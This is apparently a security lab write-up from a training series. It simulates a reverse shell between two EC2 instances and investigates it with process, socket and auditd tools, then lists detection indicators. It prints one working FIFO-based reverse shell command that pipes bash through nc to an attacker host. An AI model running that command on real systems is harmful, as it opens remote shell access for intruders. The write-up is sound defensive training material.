


# Day 02 – Process & Persistence Investigation

## Objective

Simulate and investigate reverse shell activity on a Linux EC2 instance to understand process artifacts, network indicators, and audit telemetry.

---

## Environment

- Two-box EC2 lab (csoc-lab-attacker + csoc-lab-target)
- Ubuntu
- auditd enabled
- AWS SSM used for access

---

## Attack Simulation

Simulated a FIFO-based reverse shell from target attacker:

```bash
mkfifo /tmp/f

cat /tmp/f | /bin/bash -i 2>&1 | nc <csoc-lab-attacker_ip> 4444 > /tmp/f
```
Confirmed interactive access via attacker listener.

*Figure 1: Attacker listener awaiting inbound reverse shell connection.*

---

## Investigation Techniques Used

- `ps -ef --forest` for parent-child analysis

*Figure 3: Parent-child relationship showing nc execution under ssm-user context.*
- `ss -antp` for active connection correlation
- `ausearch -m EXECVE` for execution telemetry
- Named pipe artifact inspection in `/tmp`

---

## Key Findings

- Outbound TCP connection from ephemeral port → attacker:4444

*Figure 2: Active ESTABLISHED reverse shell session identified via ss -antp.*
- Process ownership: `ssm-user`
- `nc` process owning ESTAB socket
- Named pipe created in `/tmp`
- Interactive shell behavior confirmed

---

## Detection Insight

Single indicators are weak alone.

High-confidence detection requires correlation of:
- `mkfifo` execution
- Interactive `bash -i`
- `nc` outbound connection
- Long-lived ESTAB session
- Non-standard destination port

This exercise reinforced behavioral detection over port-based detection.